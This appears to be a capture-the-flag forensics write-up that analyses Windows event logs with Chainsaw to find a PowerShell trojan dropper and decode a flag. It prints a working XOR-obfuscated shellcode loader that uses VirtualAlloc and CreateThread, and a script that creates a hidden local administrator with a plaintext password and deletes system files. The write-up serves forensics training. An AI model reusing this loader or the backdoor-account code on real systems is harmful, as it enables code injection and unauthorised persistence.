





# FORENSICS - PUPPETEER

In this challenge we are given a bunch of evtx Microsoft Event Viewer log files. At the beginning I didn't know how to mess with this type of log files, however, after some googling I found this amazing [post](https://www.security-hive.com/post/evtx-forensics-investigate-windows-events).

This post suggests using a tool named Chainsaw, so that's what I did. After some tries, I came out with the following command:

	./chainsaw hunt ~/CTF/CyberApocalypse2022/Puppeteer/Logs/ --rules sigma_rules/ --mapping mapping_files/sigma-mapping.yml --full --lateral-all

As we can see, this tool generates a report based on the log files:

```
By F-Secure Countercept (@FranticTyping, @AlexKornitzer)

[+] Found 143 EVTX files
[+] Converting detection rules...
[+] Loaded 868 detection rules (92 were not loaded)
[+] Hunting: [========================================] 143/143  

[+] Detection: (External Rule) - Suspicious Powershell ScriptBlock
┌─────────────────────┬──────┬──────────────────────────────────┬───────────────┬──────────────────────────────────────────┐
│     system_time     │  id  │         detection_rules          │ computer_name │     Event.EventData.ScriptBlockText      │
├─────────────────────┼──────┼──────────────────────────────────┼───────────────┼──────────────────────────────────────────┤
│ 2022-05-06 15:40:31 │ 4104 │ ‣ Accessing WinAPI in PowerShell │ "Council-HQ"  │ $OleSPrlmhB = @"[DllImport("kernel32.dll │
│                     │      │                                  │               │ ")]public static extern IntPtr VirtualAl │
│                     │      │                                  │               │ loc(IntPtr lpAddress, uint dwSize, uint  │
│                     │      │                                  │               │ flAllocationType, uint flProtect);[DllIm │
│                     │      │                                  │               │ port("kernel32.dll")]public static exter │
│                     │      │                                  │               │ n IntPtr CreateThread(IntPtr lpThreadAtt │
│                     │      │                                  │               │ ributes, uint dwStackSize, IntPtr lpStar │
│                     │      │                                  │               │ tAddress, IntPtr lpParameter, uint dwCre │
│                     │      │                                  │               │ ationFlags, IntPtr lpThreadId);"@[byte[] │
│                     │      │                                  │               │ ] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3 │
│                     │      │                                  │               │ , 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x │
│                     │      │                                  │               │ 8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2,  │
│                     │      │                                  │               │ 0x8e, 0xb3;[byte[]] $stage2 = 0xac, 0xff │
│                     │      │                                  │               │ , 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0x │
│                     │      │                                  │               │ a2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e,  │
│                     │      │                                  │               │ 0xe4, 0xa5, 0xe1, 0xe1;$tNZvQCljVk = Add │
│                     │      │                                  │               │ -Type -memberDefinition $OleSPrlmhB -Nam │
│                     │      │                                  │               │ e "Win32" -namespace Win32Functions -pas │
│                     │      │                                  │               │ sthru;[Byte[]] $HVOASfFuNSxRXR = 0x2d,0x │
│                     │      │                                  │               │ 99,0x52,0x35,0x21,0x39,0x1d,0xd1,0xd1,0x │
│                     │      │                                  │               │ d1,0x90,0x80,0x90,0x81,0x83,0x99,0xe0,0x │
│                     │      │                                  │               │ 03,0xb4,0x99,0x5a,0x83,0xb1,0x99,0x5a,0x │
│                     │      │                                  │               │ 83,0xc9,0x80,0x87,0x99,0x5a,0x83,0xf1,0x │
│                     │      │                                  │               │ 99,0xde,0x66,0x9b,0x9b,0x9c,0xe0,0x18,0x │
│                     │      │                                  │               │ 99,0x5a,0xa3,0x81,0x99,0xe0,0x11,0x7d,0x │
│                     │      │                                  │               │ ed,0xb0,0xad,0xd3,0xfd,0xf1,0x90,0x10,0x │
│                     │      │                                  │               │ 18,0xdc,0x90,0xd0,0x10,0x33,0x3c,0x83,0x │
│                     │      │                                  │               │ 99,0x5a,0x83,0xf1,0x90,0x80,0x5a,0x93,0x │
│                     │      │                                  │               │ ed,0x99,0xd0,0x01,0xb7,0x50,0xa9,0xc9,0x │
│                     │      │                                  │               │ da,0xd3,0xde,0x54,0xa3,0xd1,0xd1,0xd1,0x │
│                     │      │                                  │               │ 5a,0x51,0x59,0xd1,0xd1,0xd1,0x99,0x54,0x │
│                     │      │                                  │               │ 11,0xa5,0xb6,0x99,0xd0,0x01,0x5a,0x99,0x │
│                     │      │                                  │               │ c9,0x81,0x95,0x5a,0x91,0xf1,0x98,0xd0,0x │
│                     │      │                                  │               │ 01,0x32,0x87,0x99,0x2e,0x18,0x9c,0xe0,0x │
│                     │      │                                  │               │ 18,0x90,0x5a,0xe5,0x59,0x99,0xd0,0x07,0x │
│                     │      │                                  │               │ 99,0xe0,0x11,0x90,0x10,0x18,0xdc,0x7d,0x │
│                     │      │                                  │               │ 90,0xd0,0x10,0xe9,0x31,0xa4,0x20,0x9d,0x │
│                     │      │                                  │               │ d2,0x9d,0xf5,0xd9,0x94,0xe8,0x00,0xa4,0x │
│                     │      │                                  │               │ 09,0x89,0x95,0x5a,0x91,0xf5,0x98,0xd0,0x │
│                     │      │                                  │               │ 01,0xb7,0x90,0x5a,0xdd,0x99,0x95,0x5a,0x │
│                     │      │                                  │               │ 91,0xcd,0x98,0xd0,0x01,0x90,0x5a,0xd5,0x │
│                     │      │                                  │               │ 59,0x90,0x89,0x90,0x89,0x8f,0x88,0x99,0x │
│                     │      │                                  │               │ d0,0x01,0x8b,0x90,0x89,0x90,0x88,0x90,0x │
│                     │      │                                  │               │ 8b,0x99,0x52,0x3d,0xf1,0x90,0x83,0x2e,0x │
│                     │      │                                  │               │ 31,0x89,0x90,0x88,0x8b,0x99,0x5a,0xc3,0x │
│                     │      │                                  │               │ 38,0x9a,0x2e,0x2e,0x2e,0x8c,0x98,0x6f,0x │
│                     │      │                                  │               │ a6,0xa2,0xe3,0x8e,0xe2,0xe3,0xd1,0xd1,0x │
│                     │      │                                  │               │ 90,0x87,0x98,0x58,0x37,0x99,0x50,0x3d,0x │
│                     │      │                                  │               │ 71,0xd0,0xd1,0xd1,0x98,0x58,0x34,0x98,0x │
│                     │      │                                  │               │ 6d,0xd3,0xd1,0xd4,0xe8,0x11,0x79,0xd1,0x │
│                     │      │                                  │               │ c3,0x90,0x85,0x98,0x58,0x35,0x9d,0x58,0x │
│                     │      │                                  │               │ 20,0x90,0x6b,0x9d,0xa6,0xf7,0xd6,0x2e,0x │
│                     │      │                                  │               │ 04,0x9d,0x58,0x3b,0xb9,0xd0,0xd0,0xd1,0x │
│                     │      │                                  │               │ d1,0x88,0x90,0x6b,0xf8,0x51,0xba,0xd1,0x │
│                     │      │                                  │               │ 2e,0x04,0xbb,0xdb,0x90,0x8f,0x81,0x81,0x │
│                     │      │                                  │               │ 9c,0xe0,0x18,0x9c,0xe0,0x11,0x99,0x2e,0x │
│                     │      │                                  │               │ 11,0x99,0x58,0x13,0x99,0x2e,0x11,0x99,0x │
│                     │      │                                  │               │ 58,0x10,0x90,0x6b,0x3b,0xde,0x0e,0x31,0x │
│                     │      │                                  │               │ 2e,0x04,0x99,0x58,0x16,0xbb,0xc1,0x90,0x │
│                     │      │                                  │               │ 89,0x9d,0x58,0x33,0x99,0x58,0x28,0x90,0x │
│                     │      │                                  │               │ 6b,0x48,0x74,0xa5,0xb0,0x2e,0x04,0x54,0x │
│                     │      │                                  │               │ 11,0xa5,0xdb,0x98,0x2e,0x1f,0xa4,0x34,0x │
│                     │      │                                  │               │ 39,0x42,0xd1,0xd1,0xd1,0x99,0x52,0x3d,0x │
│                     │      │                                  │               │ c1,0x99,0x58,0x33,0x9c,0xe0,0x18,0xbb,0x │
│                     │      │                                  │               │ d5,0x90,0x89,0x99,0x58,0x28,0x90,0x6b,0x │
│                     │      │                                  │               │ d3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0x │
│                     │      │                                  │               │ d1,0xaf,0x84,0x99,0x52,0x15,0xf1,0x8f,0x │
│                     │      │                                  │               │ 58,0x27,0xbb,0x91,0x90,0x88,0xb9,0xd1,0x │
│                     │      │                                  │               │ c1,0xd1,0xd1,0x90,0x89,0x99,0x58,0x23,0x │
│                     │      │                                  │               │ 99,0xe0,0x18,0x90,0x6b,0x89,0x75,0x82,0x │
│                     │      │                                  │               │ 34,0x2e,0x04,0x99,0x58,0x12,0x98,0x58,0x │
│                     │      │                                  │               │ 16,0x9c,0xe0,0x18,0x98,0x58,0x21,0x99,0x │
│                     │      │                                  │               │ 58,0x0b,0x99,0x58,0x28,0x90,0x6b,0xd3,0x │
│                     │      │                                  │               │ 08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0x │
│                     │      │                                  │               │ ac,0xf9,0x89,0x90,0x86,0x88,0xb9,0xd1,0x │
│                     │      │                                  │               │ 91,0xd1,0xd1,0x90,0x89,0xbb,0xd1,0x8b,0x │
│                     │      │                                  │               │ 90,0x6b,0xda,0xfe,0xde,0xe1,0x2e,0x04,0x │
│                     │      │                                  │               │ 86,0x88,0x90,0x6b,0xa4,0xbf,0x9c,0xb0,0x │
│                     │      │                                  │               │ 2e,0x04,0x98,0x2e,0x1f,0x38,0xed,0x2e,0x │
│                     │      │                                  │               │ 2e,0x2e,0x99,0xd0,0x12,0x99,0xf8,0x17,0x │
│                     │      │                                  │               │ 99,0x54,0x27,0xa4,0x65,0x90,0x2e,0x36,0x │
│                     │      │                                  │               │ 89,0xbb,0xd1,0x88,0x98,0x16,0x13,0x21,0x │
│                     │      │                                  │               │ 64,0x73,0x87,0x2e,0x04;[array]::Reverse( │
│                     │      │                                  │               │ $stage2);$hRffYLENA = $tNZvQCljVk::Virtu │
│                     │      │                                  │               │ alAlloc(0,[Math]::Max($HVOASfFuNSxRXR.Le │
│                     │      │                                  │               │ ngth,0x1000),0x3000,0x40);$stage3 = $sta │
│                     │      │                                  │               │ ge1 + $stage2;[System.Runtime.InteropSer │
│                     │      │                                  │               │ vices.Marshal]::Copy($HVOASfFuNSxRXR,0,$ │
│                     │      │                                  │               │ hRffYLENA,$HVOASfFuNSxRXR.Length);# Unpa │
│                     │      │                                  │               │ ck Shellcode;for($i=0; $i -lt $HVOASfFuN │
│                     │      │                                  │               │ SxRXR.count ; $i++){  $HVOASfFuNSxRXR[$i │
│                     │      │                                  │               │ ] = $HVOASfFuNSxRXR[$i] -bxor 0xd1;}#Unp │
│                     │      │                                  │               │ ack Special Orders!for($i=0;$i -lt $stag │
│                     │      │                                  │               │ e3.count;$i++){  $stage3[$i] = $stage3[$ │
│                     │      │                                  │               │ i] -bxor 0xd1;}$tNZvQCljVk::CreateThread │
│                     │      │                                  │               │ (0,0,$hRffYLENA,0,0,0);                  │
├─────────────────────┼──────┼──────────────────────────────────┼───────────────┼──────────────────────────────────────────┤
│ 2022-05-06 15:43:51 │ 4104 │ ‣ PowerShell Create Local        │ "Council-HQ"  │ # Create a new task action$taskAction =  │
│                     │      │ User                             │               │ New-ScheduledTaskAction -Execute 'powers │
│                     │      │                                  │               │ hell.exe';$taskTrigger = New-ScheduledTa │
│                     │      │                                  │               │ skTrigger -Daily -At 3PM;# The name of y │
│                     │      │                                  │               │ our scheduled task.$taskName = "Elevate  │
│                     │      │                                  │               │ Powers"# Describe the scheduled task.$de │
│                     │      │                                  │               │ scription = "Steal weapons"# Register th │
│                     │      │                                  │               │ e scheduled taskRegister-ScheduledTask - │
│                     │      │                                  │               │ TaskName $taskName -Action $taskAction - │
│                     │      │                                  │               │ Trigger $taskTrigger -Description $descr │
│                     │      │                                  │               │ iption# Create a new task action$taskAct │
│                     │      │                                  │               │ ion = New-ScheduledTaskAction -Execute ' │
│                     │      │                                  │               │ powershell.exe';$taskTrigger = New-Sched │
│                     │      │                                  │               │ uledTaskTrigger -Daily -At 3PM;# The nam │
│                     │      │                                  │               │ e of your scheduled task.$taskName = "Sa │
│                     │      │                                  │               │ botage Miyuki"# Describe the scheduled t │
│                     │      │                                  │               │ ask.$description = "Bypass Arms Embargo" │
│                     │      │                                  │               │ # Register the scheduled taskRegister-Sc │
│                     │      │                                  │               │ heduledTask -TaskName $taskName -Action  │
│                     │      │                                  │               │ $taskAction -Trigger $taskTrigger -Descr │
│                     │      │                                  │               │ iption $description#start windows update │
│                     │      │                                  │               │  serviceGet-Service -Name wuauserv | Sta │
│                     │      │                                  │               │ rt-Service -Verbose#delete childsGet-Chi │
│                     │      │                                  │               │ ldItem "C:\Windows\SoftwareDistribution\ │
│                     │      │                                  │               │ *" -Recurse -Force -Verbose -ErrorAction │
│                     │      │                                  │               │  SilentlyContinue | remove-item -force - │
│                     │      │                                  │               │ Verbose -recurse -ErrorAction SilentlyCo │
│                     │      │                                  │               │ ntinue#clear temp folderGet-ChildItem "C │
│                     │      │                                  │               │ :\users\*\AppData\Local\Temp\*" -Recurse │
│                     │      │                                  │               │  -Force -ErrorAction SilentlyContinue |W │
│                     │      │                                  │               │ here-Object { ($_.CreationTime -lt $(Get │
│                     │      │                                  │               │ -Date).AddDays(-$DaysToDelete))} |remove │
│                     │      │                                  │               │ -item -force -Verbose -recurse -ErrorAct │
│                     │      │                                  │               │ ion SilentlyContinuecleanmgr /sagerun:12 │
│                     │      │                                  │               │ do {"waiting for cleanmgr to complete. . │
│                     │      │                                  │               │  ."start-sleep 5} while ((get-wmiobject  │
│                     │      │                                  │               │ win32_process | where-object {$_.process │
│                     │      │                                  │               │ name -eq ‘cleanmgr.exe’} | measure).coun │
│                     │      │                                  │               │ t)# Create Admin Accountfunction Create- │
│                     │      │                                  │               │ NewLocalAdmin {  [CmdletBinding()]  para │
│                     │      │                                  │               │ m (    [string] $NewLocalAdmin,    [secu │
│                     │      │                                  │               │ restring] $Password  )    begin {  }     │
│                     │      │                                  │               │ process {    New-LocalUser "$NewLocalAdm │
│                     │      │                                  │               │ in" -Password $Password -FullName "$NewL │
│                     │      │                                  │               │ ocalAdmin" -Description "Temporary local │
│                     │      │                                  │               │  admin"    Write-Verbose "$NewLocalAdmin │
│                     │      │                                  │               │  local user crated"    Add-LocalGroupMem │
│                     │      │                                  │               │ ber -Group "Administrators" -Member "$Ne │
│                     │      │                                  │               │ wLocalAdmin"    Write-Verbose "$NewLocal │
│                     │      │                                  │               │ Admin added to the local administrator g │
│                     │      │                                  │               │ roup"  }    end {  }}$NewLocalAdmin = "b │
│                     │      │                                  │               │ ackup_op";$Password = ConvertTo-SecureSt │
│                     │      │                                  │               │ ring "sup3rk3y" -AsPlainText -Force;Crea │
│                     │      │                                  │               │ te-NewLocalAdmin -NewLocalAdmin $NewLoca │
│                     │      │                                  │               │ lAdmin -Password $Password               │
└─────────────────────┴──────┴──────────────────────────────────┴───────────────┴──────────────────────────────────────────┘

[+] Detection: (Built-in Logic) - Windows Defender Detections
┌─────────────────────┬──────┬──────────────┬────────────────────────────────────────┬────────────────────────────────────────┬──────────────────────────────┐
│     system_time     │  id  │   computer   │              threat_name               │              threat_file               │             user             │
├─────────────────────┼──────┼──────────────┼────────────────────────────────────────┼────────────────────────────────────────┼──────────────────────────────┤
│ 2022-05-06 15:40:17 │ 1116 │ "Council-HQ" │ "TrojanDropper:PowerShell/Ploty.gen!A" │ "amsi:_C:\\sysmgr\\special_orders.ps1" │ "Council-HQ\\Council Leader" │
└─────────────────────┴──────┴──────────────┴────────────────────────────────────────┴────────────────────────────────────────┴──────────────────────────────┘

[+] Detection: (Built-in Logic) - New User Created
┌─────────────────────┬──────┬───────────────────┬──────────────────────┬─────────────────────────────────────────────────┐
│     system_time     │  id  │     computer      │   target_username    │                    user_sid                     │
├─────────────────────┼──────┼───────────────────┼──────────────────────┼─────────────────────────────────────────────────┤
│ 2022-05-06 15:23:59 │ 4720 │ "Council-HQ"      │ "Council Leader"     │ "S-1-5-21-2389065719-3342106636-307857974-1001" │
├─────────────────────┼──────┼───────────────────┼──────────────────────┼─────────────────────────────────────────────────┤
│ 2022-05-06 15:29:00 │ 4720 │ "Council-HQ"      │ "sysadm"             │ "S-1-5-21-2389065719-3342106636-307857974-1002" │
├─────────────────────┼──────┼───────────────────┼──────────────────────┼─────────────────────────────────────────────────┤
│ 2022-05-06 15:44:04 │ 4720 │ "Council-HQ"      │ "backup_op"          │ "S-1-5-21-2389065719-3342106636-307857974-1003" │
├─────────────────────┼──────┼───────────────────┼──────────────────────┼─────────────────────────────────────────────────┤
│ 2022-05-07 01:19:36 │ 4720 │ "WIN-GE1PLB8KFNS" │ "WDAGUtilityAccount" │ "S-1-5-21-2389065719-3342106636-307857974-504"  │
├─────────────────────┼──────┼───────────────────┼──────────────────────┼─────────────────────────────────────────────────┤
│ 2022-05-07 01:20:58 │ 4720 │ "DESKTOP-DBOP9M0" │ "defaultuser0"       │ "S-1-5-21-2389065719-3342106636-307857974-1000" │
└─────────────────────┴──────┴───────────────────┴──────────────────────┴─────────────────────────────────────────────────┘

[+] Detection: (Built-in Logic) - User added to interesting group
┌─────────────────────┬──────┬───────────────────┬───────────────────────────┬─────────────────────────────────────────────────┬──────────────────┐
│     system_time     │  id  │     computer      │        change_type        │                    user_sid                     │   target_group   │
├─────────────────────┼──────┼───────────────────┼───────────────────────────┼─────────────────────────────────────────────────┼──────────────────┤
│ 2022-05-06 15:20:57 │ 4732 │ "DESKTOP-DBOP9M0" │ User added to local group │ "S-1-5-21-2389065719-3342106636-307857974-1000" │ "Administrators" │
├─────────────────────┼──────┼───────────────────┼───────────────────────────┼─────────────────────────────────────────────────┼──────────────────┤
│ 2022-05-06 15:23:59 │ 4732 │ "Council-HQ"      │ User added to local group │ "S-1-5-21-2389065719-3342106636-307857974-1001" │ "Administrators" │
├─────────────────────┼──────┼───────────────────┼───────────────────────────┼─────────────────────────────────────────────────┼──────────────────┤
│ 2022-05-06 15:29:07 │ 4732 │ "Council-HQ"      │ User added to local group │ "S-1-5-21-2389065719-3342106636-307857974-1002" │ "Administrators" │
├─────────────────────┼──────┼───────────────────┼───────────────────────────┼─────────────────────────────────────────────────┼──────────────────┤
│ 2022-05-06 15:44:04 │ 4732 │ "Council-HQ"      │ User added to local group │ "S-1-5-21-2389065719-3342106636-307857974-1003" │ "Administrators" │
└─────────────────────┴──────┴───────────────────┴───────────────────────────┴─────────────────────────────────────────────────┴──────────────────┘

[+] 12 Detections found
```

If we analyze the report, we can see that a '**TrojanDropper**' has been spotted in the '**Council-HQ**' computer under the '**Council Leader**' user. The thread file seems to be a Powershell one and, if we look at the top of the report, we can find a very suspicious Powershell script located in '**Council-HQ**' computer, the same computer that has been infected.

If we fix the Powershell script format, we end having the following:

```
$OleSPrlmhB = @""[DllImport(""kernel32.dll"")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport(""kernel32.dll"")]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
""@
[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;
[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;
$tNZvQCljVk = Add-Type -memberDefinition $OleSPrlmhB -Name ""Win32"" -namespace Win32Functions -passthru;
[byte[]] $HVOASfFuNSxRXR = 0x2d,0x99,0x52,0x35,0x21,0x39,0x1d,0xd1,0xd1,0xd1,0x90,0x80,0x90,0x81,0x83,0x99,0xe0,0x03,0xb4,0x99,0x5a,0x83,0xb1,0x99,0x5a,0x83,0xc9,0x80,0x87,0x99,0x5a,0x83,0xf1,0x99,0xde,0x66,0x9b,0x9b,0x9c,0xe0,0x18,0x99,0x5a,0xa3,0x81,0x99,0xe0,0x11,0x7d,0xed,0xb0,0xad,0xd3,0xfd,0xf1,0x90,0x10,0x18,0xdc,0x90,0xd0,0x10,0x33,0x3c,0x83,0x99,0x5a,0x83,0xf1,0x90,0x80,0x5a,0x93,0xed,0x99,0xd0,0x01,0xb7,0x50,0xa9,0xc9,0xda,0xd3,0xde,0x54,0xa3,0xd1,0xd1,0xd1,0x5a,0x51,0x59,0xd1,0xd1,0xd1,0x99,0x54,0x11,0xa5,0xb6,0x99,0xd0,0x01,0x5a,0x99,0xc9,0x81,0x95,0x5a,0x91,0xf1,0x98,0xd0,0x01,0x32,0x87,0x99,0x2e,0x18,0x9c,0xe0,0x18,0x90,0x5a,0xe5,0x59,0x99,0xd0,0x07,0x99,0xe0,0x11,0x90,0x10,0x18,0xdc,0x7d,0x90,0xd0,0x10,0xe9,0x31,0xa4,0x20,0x9d,0xd2,0x9d,0xf5,0xd9,0x94,0xe8,0x00,0xa4,0x09,0x89,0x95,0x5a,0x91,0xf5,0x98,0xd0,0x01,0xb7,0x90,0x5a,0xdd,0x99,0x95,0x5a,0x91,0xcd,0x98,0xd0,0x01,0x90,0x5a,0xd5,0x59,0x90,0x89,0x90,0x89,0x8f,0x88,0x99,0xd0,0x01,0x8b,0x90,0x89,0x90,0x88,0x90,0x8b,0x99,0x52,0x3d,0xf1,0x90,0x83,0x2e,0x31,0x89,0x90,0x88,0x8b,0x99,0x5a,0xc3,0x38,0x9a,0x2e,0x2e,0x2e,0x8c,0x98,0x6f,0xa6,0xa2,0xe3,0x8e,0xe2,0xe3,0xd1,0xd1,0x90,0x87,0x98,0x58,0x37,0x99,0x50,0x3d,0x71,0xd0,0xd1,0xd1,0x98,0x58,0x34,0x98,0x6d,0xd3,0xd1,0xd4,0xe8,0x11,0x79,0xd1,0xc3,0x90,0x85,0x98,0x58,0x35,0x9d,0x58,0x20,0x90,0x6b,0x9d,0xa6,0xf7,0xd6,0x2e,0x04,0x9d,0x58,0x3b,0xb9,0xd0,0xd0,0xd1,0xd1,0x88,0x90,0x6b,0xf8,0x51,0xba,0xd1,0x2e,0x04,0xbb,0xdb,0x90,0x8f,0x81,0x81,0x9c,0xe0,0x18,0x9c,0xe0,0x11,0x99,0x2e,0x11,0x99,0x58,0x13,0x99,0x2e,0x11,0x99,0x58,0x10,0x90,0x6b,0x3b,0xde,0x0e,0x31,0x2e,0x04,0x99,0x58,0x16,0xbb,0xc1,0x90,0x89,0x9d,0x58,0x33,0x99,0x58,0x28,0x90,0x6b,0x48,0x74,0xa5,0xb0,0x2e,0x04,0x54,0x11,0xa5,0xdb,0x98,0x2e,0x1f,0xa4,0x34,0x39,0x42,0xd1,0xd1,0xd1,0x99,0x52,0x3d,0xc1,0x99,0x58,0x33,0x9c,0xe0,0x18,0xbb,0xd5,0x90,0x89,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xaf,0x84,0x99,0x52,0x15,0xf1,0x8f,0x58,0x27,0xbb,0x91,0x90,0x88,0xb9,0xd1,0xc1,0xd1,0xd1,0x90,0x89,0x99,0x58,0x23,0x99,0xe0,0x18,0x90,0x6b,0x89,0x75,0x82,0x34,0x2e,0x04,0x99,0x58,0x12,0x98,0x58,0x16,0x9c,0xe0,0x18,0x98,0x58,0x21,0x99,0x58,0x0b,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xac,0xf9,0x89,0x90,0x86,0x88,0xb9,0xd1,0x91,0xd1,0xd1,0x90,0x89,0xbb,0xd1,0x8b,0x90,0x6b,0xda,0xfe,0xde,0xe1,0x2e,0x04,0x86,0x88,0x90,0x6b,0xa4,0xbf,0x9c,0xb0,0x2e,0x04,0x98,0x2e,0x1f,0x38,0xed,0x2e,0x2e,0x2e,0x99,0xd0,0x12,0x99,0xf8,0x17,0x99,0x54,0x27,0xa4,0x65,0x90,0x2e,0x36,0x89,0xbb,0xd1,0x88,0x98,0x16,0x13,0x21,0x64,0x73,0x87,0x2e,0x04;
[array]: :Reverse($stage2);
$hRffYLENA = $tNZvQCljVk::VirtualAlloc(0,[Math]: :Max($HVOASfFuNSxRXR.Length,0x1000),0x3000,0x40); 
$stage3 = $stage1 + $stage2;
[System.Runtime.InteropServices.Marshal]: :Copy($HVOASfFuNSxRXR,0,$hRffYLENA,$HVOASfFuNSxRXR.Length);
# Unpack Shellcode;
for($i=0; $i -lt $HVOASfFuNSxRXR.count ; $i++)
{
$HVOASfFuNSxRXR[$i] = $HVOASfFuNSxRXR[$i] -bxor 0xd1;
}
#Unpack Special Orders!
for($i=0;$i -lt $stage3.count;$i++)
{
$stage3[$i] = $stage3[$i] -bxor 0xd1; 
}
$tNZvQCljVk: :CreateThread(0,0,$hRffYLENA,0,0,0);
```

After taking a look to this script, we can arrive to the following statements:

- There are three strange byte arrays in the code: **stage1**, **stage2** and **HVOASfFuNSxRXR**.

- **stage1** and **stage2** are concatenated to create **stage3**.

- After this concatenation, **HVOASfFuNSxRXR** and **stage3** are 'decoded' using a **bitwise XOR** with the hex value **0xd1**.

Once we have discovered this, we can proceed to manually decode the byte arrays. To achieve this goal, I opened a Powershell prompt and replicated the loops in the code.

- **HVOASfFuNSxRXR** byte array: 



We can't see the full output on the screenshot but, sadly, if we convert the decimal values into ASCII we don't have anything readable here.

- **stage3** byte array:




In this case we have the following output:
```
72 84 66 123 98 51 119 104 52 114 51 95 48 102 95 116 104 51 95 98 125 46 46 46 51 99 49 116 115 117 106 95 102 48 95 53 116 48 48
```

If we turn these decimal values into ASCII, we'll see something very similar to a flag, we just need to reverse the second half of the string!

